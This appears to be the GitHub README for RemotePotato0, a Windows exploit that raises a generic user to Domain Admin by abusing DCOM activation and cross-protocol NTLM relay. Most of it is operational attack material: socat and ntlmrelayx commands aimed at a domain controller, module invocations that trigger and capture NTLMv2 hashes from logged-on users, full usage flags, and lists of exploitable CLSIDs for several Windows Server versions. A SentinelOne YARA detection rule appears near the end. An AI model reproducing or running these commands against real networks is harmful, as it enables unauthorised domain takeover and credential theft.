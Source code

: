 # RemotePotato0
Just another "Won't Fix" Windows Privilege Escalation from User to Domain Admin.

RemotePotato0 is an exploit that allows you to escalate your privileges from a generic User to Domain Admin. 

Briefly:

It abuses the DCOM activation service and trigger an NTLM authentication of any user currently logged on in the target machine.
It is required that a privileged user is logged on the same machine (e.g. a Domain Admin user).
Once the NTLM type1 is triggered we setup a cross protocol relay server that receive the privileged type1 message and relay it to a third resource by unpacking the RPC protocol and packing the authentication over HTTP. On the receiving end you can setup a further relay node (eg. ntlmrelayx) or relay directly to a privileged resource.
RemotePotato0 also allows to grab and steal NTLMv2 hashes of every users logged on a machine.

## Examples

Attacker machine (10.0.0.20)

Victim machine (10.0.0.45)

Victim Domain Controller (10.0.0.10)

#### Module 0 - Rpc2Http cross protocol relay server + potato trigger

```
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.0.0.45:9999 &
sudo ntlmrelayx.py -t ldap://10.0.0.10 --no-wcf-server --escalate-user normal_user
```
**Note: if you are on Windows Server <= 2016 you can avoid the network redirector (socat) because the oxid resolution can be performed locally.**

```
query user
.\RemotePotato0.exe -m 0 -r 10.0.0.20 -x 10.0.0.20 -p 9999 -s 1
```

#### Module 1 - Rpc2Http cross protocol relay server
```
.\RemotePotato0.exe -m 1 -l 9997 -r 10.0.0.20 
```

```
rpcping -s 127.0.0.1 -e 9997 -a connect -u ntlm
```

#### Module 2 - Rpc capture (hash) server + potato trigger
```
query user
.\RemotePotato0.exe -m 2 -s 1
```

#### Module 3 - Rpc capture (hash) server
```
.\RemotePotato0.exe -m 3 -l 9997
```

```
rpcping -s 127.0.0.1 -e 9997 -a connect -u ntlm
```
## Usage

```


        RemotePotato0
        @splinter_code & @decoder_it



Mandatory args:
-m module
        Allowed values:
        0 - Rpc2Http cross protocol relay server + potato trigger (default)
        1 - Rpc2Http cross protocol relay server
        2 - Rpc capture (hash) server + potato trigger
        3 - Rpc capture (hash) server


Other args: (someone could be mandatory and/or optional based on the module you use)
-r Remote HTTP relay server ip
-t Remote HTTP relay server port (Default 80)
-x Rogue Oxid Resolver ip (default 127.0.0.1)
-p Rogue Oxid Resolver port (default 9999)
-l RPC Relay server listening port (Default 9997)
-s Session id for the Cross Session Activation attack (default disabled)
-c CLSID (Default {5167B42F-C111-47A1-ACC4-8EABE61B0B54})
```


## Demo

### Cross session activation
<img src="demo_cross_session.gif">

### Hash Stealer
<img src="demo_hash_stealer.gif">

## CLSID List

A list of usable CLSID on various Windows version:

Windows Server 2019
```
{0002DF02-0000-0000-C000-000000000046} - BrowserBroker Class   
{0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4} - AuthBrokerUI 
{5167B42F-C111-47A1-ACC4-8EABE61B0B54} - Easconsent.dll 
{924DC564-16A6-42EB-929A-9A61FA7DA06F} - Authentication UI CredUI Out of Proc Helper for Non-AppContainer Clients  
{934b410c-43e4-415e-9935-fbc081ba93a9} - UserInfoDialog   
{BA441419-0B3F-4FB6-A903-D16CC14CCA44} - CLSID_LockScreenContentionFlyout 
{c58ca859-80bc-48df-8f06-ffa94a405bff} - Picker Host   
{f65817c8-dd85-4136-89f0-b9d12939f2c4} - IsolatedMessageDialogFactory  
{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83} - SPPUIObjectInteractive Class
{f8842f8e-dafe-4b37-9d38-4e0714a61149} - CastServerInteractiveUser
```

Windows Server 2016
```
{924DC564-16A6-42EB-929A-9A61FA7DA06F}
{f65817c8-dd85-4136-89f0-b9d12939f2c4}
{BA441419-0B3F-4FB6-A903-D16CC14CCA44}
{0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4}
{934b410c-43e4-415e-9935-fbc081ba93a9}
{f8842f8e-dafe-4b37-9d38-4e0714a61149}
{0002DF02-0000-0000-C000-000000000046}
{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
{c58ca859-80bc-48df-8f06-ffa94a405bff}
{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
```

Windows Server 2008 R2
```
{FCC74B77-EC3E-4dd8-A80B-008A702075A9}
{9BA05972-F6A8-11CF-A442-00A0C90A8F39}
{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
```


You can find a more complete list here --> http://ohpe.it/juicy-potato/CLSID/

## Detection

Yara rule to detect RemotePotato0 binary:

```
rule SentinelOne_RemotePotato0_privesc {
    meta:
        author = "SentinelOne"
        description = "Detects RemotePotato0 binary"
        reference = "https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop"
        
    strings:
        $import1 = "CoGetInstanceFromIStorage"
        $istorage_clsid = "{00000306-0000-0000-c000-000000000046}" nocase wide ascii
        $meow_header = { 4d 45 4f 57 }
        $clsid1 = "{11111111-2222-3333-4444-555555555555}" nocase wide ascii
        $clsid2 = "{5167B42F-C111-47A1-ACC4-8EABE61B0B54}" nocase wide ascii
        
    condition:        
        (uint16(0) == 0x5A4D) and $import1 and $istorage_clsid and $meow_header and 1 of ($clsid*)
}
```

## Authors

* [Antonio Cocomazzi](https://twitter.com/splinter_code)
* [Andrea Pierini](https://twitter.com/decoder_it)

## Credits

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [@tiraniddo](https://twitter.com/tiraniddo) - [Cross Session Activation](https://www.tiraniddo.dev/2021/04/standard-activating-yourself-to.html)
* [@Responder](https://github.com/lgandx/Responder)

## References
- https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop/
- https://www.tiraniddo.dev/2021/04/standard-activating-yourself-to.html
